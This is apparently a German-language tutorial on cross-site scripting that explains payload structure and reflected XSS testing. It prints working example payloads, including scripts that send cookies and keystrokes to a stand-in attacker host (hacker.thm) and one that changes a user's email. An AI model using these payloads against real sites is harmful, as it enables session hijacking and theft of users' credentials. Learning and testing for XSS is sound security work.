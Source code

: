Cross-Site Scripting, in der Cybersecurity-Community besser bekannt als XSS, wird als Injektionsangriff eingestuft, bei dem bösartiges JavaScript in eine Webanwendung eingeschleust wird, mit der Absicht, von anderen Benutzern ausgeführt zu werden.

##### Was ist eine XSS Payload?

Bei XSS Schwachstellen handelt es sich bei der Payload um Java Script Code der auf der Zielmaschine ausgeführt werden soll. 
Die Payload wird in zwei Teile Aufgeteilt. Die Intention und die Modification. 

Die Intention ist das was das Java Script tatsächlich tun soll, und die Modifikation ist die Änderung des Codes die wir brauchen damit der Code ausgeführt wird.

Hier ein paar beispiele zu XSS Intentions: 

PoC (Proof of Concept):
```
<script>alert('XSS');</script>
```
Das ist eine der Einfachsten Payloads, mit der Man demonstrieren möchte das es eine XSS Schwachstelle gibt. Diese Payload sorgt dafür das eine Alert Box sich öfnet mit einem Simplen Text String.

Session Stealing: 
```
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```
Da Deteils einer user Session meistens in den Cookies gespeichert werden, sorgt dieses Script dafür, dass die Cookies von dem Zielgerät genommen werden, Base64 verschlöüsselt werden und sendet sie dann an eine vom Hacker kontrollierte Website, um sie zu protokollieren. Sobald der Hacker diese Cookies hat, kann er die Sitzung der Zielperson übernehmen und als dieser Benutzer protokolliert werden.

KeyLogger
```
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
```
Der Code Fungiert als Keylogger, d.h. alles was das Ziel auf der Website schreibt wird zu einem Server unter Kontrolle des Angreifers weitergeleitet. Das lohnt sich zum Beispiel bei Credit Karten Infos

Business Logic:
Diese Nutzlast ist sehr viel spezifischer als die obigen Beispiele. Hier geht es um den Aufruf einer bestimmten Netzwerkressource oder einer JavaScript-Funktion. Stellen Sie sich zum Beispiel eine JavaScript-Funktion zum Ändern der E-Mail-Adresse des Benutzers mit dem Namen `user.changeEmail()` vor. Ihr Payload könnte wie folgt aussehen:
```
<script>user.changeEmail('attacker@hacker.thm');</script>
```
Da nach Ausführung von diesem Script die Email Adresse des Accounts geändert wurde kann der Angreifer nun z.B. das Passwort wechseln


### Reflected XSS

Reflected XSS tritt auf, wenn vom Benutzer bereitgestellte Daten in einer HTTP-Anfrage ohne jegliche Validierung in den Webseiten-Quellcode aufgenommen werden.
Beispiel zur Erläuterung:_
Eine Website die bei Falschem Input eine Error Nachricht ANzeigt. Der Inhalt der Fehlermeldung wird aus dem Error parameter im Query-String übernommen und direkt in den Seitenquelltext eingebaut.
https://imgur.com/0Wq8biY
Die anwendung Kontrolliert den Inhalt des Error Parameters nicht, was dem Angreifer erlaubt hier Schad Code einzubauen. Dies könnte dann so aussehen:
https://imgur.com/4o5Z9Y3

##### Wie Teste ich auf Reflected XSS Schwachstellen?
Dazu muss man jeden möglichen Einstiegspunkt testen, z. B:
Parameter im URL Query String
URL-Dateipfad
Manchmal HTTP-Header (obwohl es unwahrscheinlich ist, dass sie in der Praxis ausgenutzt werden können)

Sobald man Daten gefunden hat, die in der Webanwendung widergespiegelt werden, muss man bestätigen, dass man seine JavaScript-Payload erfolgreich ausführen kann; die Payload hängt davon ab, wo in der Anwendung Ihr Code widergespiegelt wird 